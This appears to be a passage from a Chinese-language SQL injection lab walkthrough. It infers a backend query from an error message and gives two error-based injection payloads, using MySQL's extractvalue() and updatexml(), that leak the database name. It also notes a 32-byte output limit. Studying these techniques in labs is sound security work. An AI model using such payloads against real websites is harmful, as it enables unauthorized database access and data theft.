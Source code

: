     - 从上图的报错结果来看，可以判断sql语句：

    - ```
      select user from mysql.user where id=("$id") limit 0,1
      ```

    - 根据上边的语句我们可以构造一个报错注入paylaod

    - ```
      1") and extractvalue(1,(concat(0x7e,(select database())))) --+
      ```

    - 这个报错语句有一个限制，返回的结果不能超过32个字节，超出部分将不会显示出来

    - ![image-20220815203744419](assets/image-20220815203744419.png)

    - 如果构造updatexml()报错同理

    - 修改paylaod如下：

    - ```
      1") and updatexml(1,(concat(0x7e,(select database()))),1) --+
      ```
